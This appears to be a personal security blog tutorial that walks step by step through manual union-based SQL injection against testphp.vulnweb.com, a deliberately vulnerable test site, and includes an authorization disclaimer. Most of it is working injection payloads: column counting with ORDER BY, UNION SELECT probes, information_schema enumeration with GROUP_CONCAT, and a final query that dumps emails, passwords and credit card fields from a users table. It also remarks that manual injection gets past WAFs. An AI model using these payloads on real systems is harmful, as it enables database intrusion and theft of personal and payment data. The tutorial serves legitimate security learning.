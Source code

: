 <h2>EXPLOITING UNION BASED SQL INJECTION MANUALLY</h2>

Hey Guys,

It's [0xvenus](https://twitter.com/0x_venus) again

HERE I SHOWCASE HOW TO PERFORM A BASIC UNION BASED SQL INJECTION (MANUALLY)

KINDLY CHECK NEXT POST FOR ADVANCED UNION BASED SQLI WHERE I SHOWED HOW TO BYPASS SOME WAFS AND FILTERS

``Performing a Union-Based SQL Injection attack manually involves injecting a crafted payload into an input field or parameter to manipulate a SQL query and retrieve unauthorized data from the database. Please note that attempting SQL injection on systems you don't own or have explicit permission to test is illegal and unethical. Only perform these actions in a controlled, legal environment with proper authorization.``

Target: https://testphp.vulnweb.com/ (intentionally vulnerable site created for testing purpose)

**STEP 1:**

``Finding the injection point: we can simply find the injection point of a site by dorking for parameters with value``

dork example: ``site:testphp.vulnweb.com inurl:php?``. There are many dorks online you can search for more.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/71e2cbe6-2ad8-4704-b9f3-58d3157b6528)

clicking on any of those pages in the result should reveal the directory with parameter.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/58b964c7-9ede-40cd-8e2a-d4d19d435995)

As you can see we have a parameter and a value which we can then confirm the vulnerabilty

**STEP 2**

``Confirming the vulnerability: we can easily confirm the vulnerability by throwing a single quote or double quotes at the end of the parameter``
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c2ec9d8-c6ee-4f2f-b026-fbcf65108af6)
As you can see it throws an SQL error which confirms the vulnnerability

**STEP 3**

``Adding a URL balancer(comment) to fix the error: well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working.``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3541e6aa-8396-4dd6-aa65-7e5c2ad6f094)

No error after addiing the balancer. We can now proceed to the next step

**STEP 4**

``Finding the total number of columns present in the database``

we can easily use the ``order by`` or ``group by`` statement


![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7f4aa84f-1f38-4a27-93d0-bab8aa9edb5f)

``order by 1`` didn't give error so we will keep increasing the number till we get error

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/29c929b1-85e3-4ca2-a288-994ec005e33f)

``order by 1000`` showed errors which means we dont have up to 1000 columns in the database

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/450dfa62-b496-41ca-826f-16caef47db97)

increasing the number i got error at ``order by 4`` which shows we have 3 columns present in the database


**STEP 5**

``Finding the vulnerable column: we will be injecting our SQL payloads in the vulnerable column``
 
 we can get the vulnerable column by adding a dot or a slash before the parametre value combined with the ``union select statement``
 
 ```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3```

***Note the - after the = sign*** or using the ``AND statement`` and a false statement like ``1=5`` before the ``union select``

E.G ``http://testphp.vulnweb.com/artists.php?artists=1 AND 2=5 union select 1,2,3`` 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/25527c10-1785-4f3b-b1d6-814f4f97dd47)
Those numbers showing on the screen are the vulnerable columns so, you can choose the one you prefer for the injection

i will be choosing column 2 here.

**STEP 6**

``getting the database name and version: you can get the database version by inputing the @@version or version() and for db name database() in the vulnerable column``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e600515b-3169-4dcc-9ee9-aafc8d6b7fe5)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/949e1917-e5e6-4667-aa93-d6b6ae8d4525)

```http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,version(),3```


**STEP 7**


``getting table names``

we can get the table names one by one by using the query  ``table_name``  in the vulnerable column and then adding ``from information_schema.tables where table_schema=database() limit 0,1`` at the end of the query


```First row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1```

```Second row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1```

```Third row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1```

```Forth row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 3,1```

and so on.



Stressful right? lol i've gat your back mate


we can easily dump the table names once using the ``concat`` statement


```(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=DATABASE())```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3d3ba4ed-842f-4f99-8668-f5dd9180e4bc)

cool we have the table names in a single shot

**STEP 8**

``getting the column names: we can get the columns in a table we want``

```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,column_name,3 from information_schema.columns where table_schema=database() and table_name='users' limit 0,1```

Here i tried getting the columns in the *users* table 

NB: remember to keep increasing the number of limit after the query

so to get the columns in a shot we can use

```(SELECT+GROUP_CONCAT(column_name+SEPARATOR+'::')+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE())```

NB: set the value of the TABLE_NAME= to the table you are trying to get its columns

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c70af46f-e483-4d4e-a33a-88a78bd5524e)

As you can see we have the columns in the users table which are emails,creditcards,address,password e.t.c

```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(column_name+SEPARATOR+%27::%27)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE()),3```

let's proceed to the next step

**STEP 9** 

``dumping the juicy contents of the database like here we have columns; passwords,emails,creditcards e.t.c in the users table``


```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(email,'::',%20pass,'::',%20name,'::',%20cc,'::',uname,'::',%20phone%20+SEPARATOR+'::')+FROM+users%20),3```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4c5bc588-ce79-42e1-88a0-0d81313663af)

NB: i added the column names in a table to be able to dump it contents

so, note down the columns a table name then replace them in the payload.


`Ps: union based SQLi is helpful because sqlmap cant bypass all Wafs and filters but you can, the success rate in dumping the database is high by doing it manually`


Thanks 

reach out to me on [Twitter](https://twitter.com/0x_venus) for any question

see you in the next post.



<a href="https://0xvenus.github.io" style="display:inline-block; padding:8px 12px; background:#0078d4; color:#fff; text-decoration:none; border-radius:4px;">
    ⬅ Back to Homepage
</a>



















